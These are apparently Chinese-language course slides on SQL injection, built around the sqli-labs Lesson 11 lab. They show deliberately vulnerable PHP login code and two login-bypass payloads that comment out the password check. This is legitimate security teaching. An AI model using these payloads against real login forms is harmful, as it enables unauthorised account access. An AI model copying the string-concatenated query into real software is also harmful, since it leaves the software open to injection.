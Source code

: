 
## 从经典的登录绕过漏洞开始

> sqli-labs 里的 Lesson-11 Post - Error Based - Single quotes - String

![](images/chap0x07/sqli-labs-lesson-11.png)

---

### 缺陷代码解析

```php
@$sql="SELECT username, password FROM users WHERE username='$uname' and password='$passwd' LIMIT 0,1";
$result=mysql_query($sql);
$row = mysql_fetch_array($result);
```

---

### 在 SQL 控制台里调试关键注入语句 {id="sql-debug"}

```sql
/* 正常登录过程 */
SELECT username, password FROM users WHERE username='admin' and password='admin' LIMIT 0,1

/* SQL 注入登录过程 */

-- 用户名字段输入随意，例如 1 密码字段输入 1' or 1 -- （注意 -- 左右两边各有一个空格）
SELECT username, password FROM users WHERE username='admin' and password='1' or 1 -- ' LIMIT 0,1

-- 用户名字段输入 admin' --  （注意 -- 左右两边各有一个空格）密码字段输入随意
SELECT username, password FROM users WHERE username='admin' -- ' and password='1' LIMIT 0,1
```

---

## SQL 注入漏洞发现与利用的一般步骤 {id="sqli-procedure"}
